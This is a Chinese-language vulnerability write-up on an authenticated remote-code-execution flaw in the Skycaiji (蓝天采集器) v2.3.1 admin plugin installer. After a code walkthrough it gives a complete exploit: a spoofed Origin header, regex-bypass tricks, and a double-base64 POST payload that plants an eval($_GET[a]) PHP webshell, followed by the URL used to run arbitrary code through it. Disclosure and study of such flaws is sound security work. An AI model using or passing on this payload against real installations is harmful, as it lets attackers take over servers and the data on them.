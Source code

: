 蓝天采集器 v2.3.1 后台getshell
==============================

一、漏洞简介
------------

二、漏洞影响
------------

蓝天采集器 v2.3.1

三、复现过程
------------

### 漏洞分析

漏洞出发点位于/SkycaijiApp/admin/controller/Store.php文件中的installPluginAction函数，如图

![1.png](./resource/蓝天采集器v2.3.1后台getshell/media/rId25.png)

首先代码会执行\$this-\>\_checkOrigin();函数，我们跟进一下

![2.png](./resource/蓝天采集器v2.3.1后台getshell/media/rId26.png)

该函数是用来判断请求的来源是否在白名单中，注意到这里获取请求来源使用了\$\_SERVER\[\'HTTP\_ORIGIN\'\]

这里我们只要在请求时加上一个Origin请求头，并将其值改为白名单中的值就可以了，我们看一下白名单的值

![3.png](./resource/蓝天采集器v2.3.1后台getshell/media/rId27.png)

回到
installPluginAction函数，接下来函数将传入的plugin参数先进行base64解密在进行json解码，接着调用\_installPlugin函数，跟进该函数，如图

![4.png](./resource/蓝天采集器v2.3.1后台getshell/media/rId28.png)

这里函数先进行了一系列数据判空操作，接着下来如果满足\$plugin\[\'type\'\]==\'release\'这个条件将会调用addCms函数，我们继续跟进addCms函数，函数位于文件/SkycaijiApp/admin/model/ReleaseApp.php
中，如图

![5.png](./resource/蓝天采集器v2.3.1后台getshell/media/rId29.png)

![6.png](./resource/蓝天采集器v2.3.1后台getshell/media/rId30.png)

首先函数会判断\$cms\[\'app\'\]是否为空，这里无需理会，在利用时只要构造一下就好，接着代码做了三个正则校验，第一个正则来判断\$cms\[\'app\'\]是否符合其命名规范，我们可以使其值为AaAaAa来绕过校验，第二个正则用来判断函数传入的\$code是否存在命名空间，这里我们可以参考一下位于/plugin/release/cms/BaseCms.php文件中的写法，如图

![7.png](./resource/蓝天采集器v2.3.1后台getshell/media/rId31.png)

接着是第三个正则，该处是为了判断类名是否存在，要注意的是类名需要与我们设置的\$cms\[\'app\'\]一样，这里我们可以这么写

class AaAaAa{

过了三个正则后我们会来到write\_dir\_file函数，跟进一下该函数，如图

![8.png](./resource/蓝天采集器v2.3.1后台getshell/media/rId32.png)

该函数用来写文件，那么到目前为止我们就可以在网站中写入一个php文件，但是该文件要存在规定好的命名空间和类，为了写入我们可以利用的一句话，我们可以利用注释符将命名空间和类注视掉，如图

![9.png](./resource/蓝天采集器v2.3.1后台getshell/media/rId33.png)

接下来就可以构造符合条件得exp了

首先将代码base64编码，然后依据上述分析代码中的条件构造符合的json格式的字符串

    {"app":"AaAaAa","name":"test1","type":"release","module":"test2","code":"PD9waHAKLyoKbmFtZXNwYWNlIHBsdWdpblxyZWxlYXNlXGNtczsKCmNsYXNzIEFhQWFBYXsKCXB1YmxpYyAkcmVsZWFzZTsKfSovCkBldmFsKCRfR0VUW2FdKTsKPz4="}

接着把改串json字符串base64编码一下就可以post过去进行利用了。

### 漏洞复现

漏洞点位于后台安装插件功能处，首先登陆后台

1.访问

    http://www.0-sec.org/index.php?s=/Admin/Store/installPlugin

2.添加http头Origin:

    http://www.0-sec.org

3.post输入

    plugin=eyJhcHAiOiJBYUFhQWEiLCJuYW1lIjoidGVzdDEiLCJ0eXBlIjoicmVsZWFzZSIsIm1vZHVsZSI6InRlc3QyIiwiY29kZSI6IlBEOXdhSEFLTHlvS2JtRnRaWE53WVdObElIQnNkV2RwYmx4eVpXeGxZWE5sWEdOdGN6c0tDbU5zWVhOeklFRmhRV0ZCWVhzS0NYQjFZbXhwWXlBa2NtVnNaV0Z6WlRzS2ZTb3ZDa0JsZG1Gc0tDUmZSMFZVVzJGZEtUc0tQejQ9In0=

如图

![10.png](./resource/蓝天采集器v2.3.1后台getshell/media/rId35.png)

接着会在\\plugin\\release\\cms\\下生成AaAaAa.php的一句话后门，如图

![11.png](./resource/蓝天采集器v2.3.1后台getshell/media/rId36.png)

然后在后台点击发布插件选项卡，接着点击开发按钮，如图

![12.png](./resource/蓝天采集器v2.3.1后台getshell/media/rId37.png)

这时会引用我们带有一句话木马的文件，在url上添加a参数即可执行任意php代码，进而getshell，以执行phpinfo为例，访问

    http://www.0-sec.org/index.php?s=/admin/Develop/releaseCms&app=AaAaAa&a=phpinfo();

如图

![13.png](./resource/蓝天采集器v2.3.1后台getshell/media/rId38.png)

参考链接
--------

> https://xz.aliyun.com/t/7873
